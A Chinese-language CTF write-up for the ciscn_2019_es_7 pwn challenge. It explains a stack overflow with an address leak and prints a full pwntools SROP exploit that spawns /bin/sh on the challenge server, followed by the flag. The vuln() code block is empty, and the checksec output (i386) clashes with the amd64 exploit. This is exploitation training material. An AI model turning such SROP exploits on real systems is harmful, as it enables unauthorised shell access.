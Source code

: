 # ciscn_2019_es_7

[题目地址](https://buuoj.cn/challenges#ciscn_2019_es_7)

新知识点：[srop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

基本没开什么东西。不过srop我之前从来没见过，看了[wp](https://blog.csdn.net/m0_57754423/article/details/123233030)才知道这是最简单和经典的srop。

main函数里只调用了vuln，那就直接看vuln吧。

```c
```

vuln里就调用了2个函数，结果出了2个问题。read明显栈溢出，write多打印了十几个字节，buf长度只有16却打印了0x30。配合read的栈溢出，我们先用一些填充填满buf，然后跟上一个栈上的地址。这样后面write打印时就能打印出那个栈上的运行地址，从而计算将来需要的偏移。

gadgets函数要看汇编才能看出东西。

```
                             undefined gadgets()
             undefined         AL:1           <RETURN>
                             gadgets                                         XREF[3]:     Entry Point(*), 004005e0, 
                                                                                          00400680(*)  
        004004d6 55              PUSH       RBP
        004004d7 48 89 e5        MOV        RBP,RSP
        004004da 48 c7 c0        MOV        RAX,0xf
                 0f 00 00 00
        004004e1 c3              RET
        004004e2 48 c7 c0        MOV        RAX,0x3b
                 3b 00 00 00
        004004e9 c3              RET
        004004ea 90              NOP
        004004eb 5d              POP        RBP
        004004ec c3              RET

```

最开始给的ctf wiki链接里讲得很详细了，直接看wp。虽然srop相较平常的rop payload更为繁琐，但是pwntools已经集成了工具[SigreturnFrame](https://docs.pwntools.com/en/stable/rop/srop.html)。另一个更加详细的讲解参照这篇[wp](https://blog.csdn.net/mcmuyanga/article/details/112509274)。

```python
from pwn import *
 
context(arch='amd64', os='linux', log_level='debug')
 
file_name = './es_7'
 
debug = 1
if debug:
    r = remote('node4.buuoj.cn', 28068)
else:
    r = process(file_name)
 
 
def dbg():
    gdb.attach(r)
 
vuln = 0x04004ED
 
p1 = b'a' * 0x10 + p64(vuln)   #泄露地址，顺便获得执行漏洞的第二次机会
r.sendline(p1)
stack_addr = u64(r.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success('stack_addr = ' + hex(stack_addr))
 
#buf_addr = stack_addr - 0x128
buf_addr = stack_addr - 0x118   #泄露地址是为了找到buf_addr，也就是存着/bin/sh的地址。偏移值通过调试得出
success('buf_addr = ' + hex(buf_addr))
 
syscall_ret = 0x400517   #srop必须要一个syscall
sigret = 0x4004DA  #srop必须要sigreturn，不过把rax设置为0xf再syscall也是一样的效果，这里便是MOV RAX,0xf的gadget
 
sigframe = SigreturnFrame()  #构造Signal Frame。
sigframe.rax = constants.SYS_execve
sigframe.rdi = buf_addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

p1 = b'/bin/sh' + b'\x00' * (0x1 + 0x8)  #这里正好16个字节，填充完buf
p1 += p64(sigret) + p64(syscall_ret) + bytes(sigframe)  #srop公式，sigret+syscall_ret+sigfram
 
r.send(p1)
 
r.interactive()
```

## Flag
> flag{b4e76e8e-e500-47bf-9e79-9f2494a737fc}